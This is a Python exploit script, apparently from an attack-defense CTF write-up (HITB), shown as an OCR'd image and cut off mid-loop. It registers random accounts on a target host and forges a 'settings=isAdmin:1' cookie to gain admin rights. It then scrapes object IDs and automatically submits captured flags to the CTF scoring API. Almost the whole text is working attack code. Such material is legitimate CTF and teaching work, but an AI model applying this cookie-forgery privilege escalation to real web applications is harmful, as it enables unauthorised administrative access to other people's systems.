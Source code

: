 Final exploit:
```python
#!/usr/bin/python3
import json
import logging
import re
import requests
import time
import string
import random
import time
from sys import argv

logger = logging.getLogger()

CHECKSYSTEM_TOKEN = "CHECKSYSTEM_000_00000000000000000000000000000000"
API_HOST = "https://ctf.hitb.org"
flag_regex = re.compile(r"TEAM[0-9]*_[A-Z0-9]{32}")
id_regex = re.compile(r"[a-f0-9]{24}")

seen = set()
def submit_flags(flags):
	flags = list(set(flags).difference(seen))
	seen.update(flags)
	if len(flags)==0:
		return
	logger.error(f"SUBMITTING {json.dumps(flags)}")
	try:
		data = requests.put(f"{API_HOST}/flags",headers={'X-Team-Token':CHECKSYSTEM_TOKEN},json=flags).json()
	except:
		time.sleep(5)
		submit_flags(flags)
		return
	flag_count = len(data)
	accepted_count = 0
	for x in data:
		if "Accepted" in x['msg']:
			accepted_count+=1
	logger.error(f"Accepted flags: {accepted_count}, Denied flags: {flag_count-accepted_count}")
	return
	
script,host = argv

def gen_rand():
    return ''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(20))

while True:
    s = requests.Session()
    s.cookies.set("settings", "isAdmin:1", domain=host)
    data = {"username": gen_rand(),"password": gen_rand()}
    try:
        r = s.post(f"https://{host}/register", data=data)
        ids = list(set(id_regex.findall(r.text)))
        counter = 0
        while len(ids)==0:
            counter+=1
            if counter==100:
                print(f"{host} is patched?")
                exit()
            time.sleep(2)
            r = s.get(f"https://{host}/")
            ids = list(set(id_regex.findall(r.text)))
        all_flags = []
```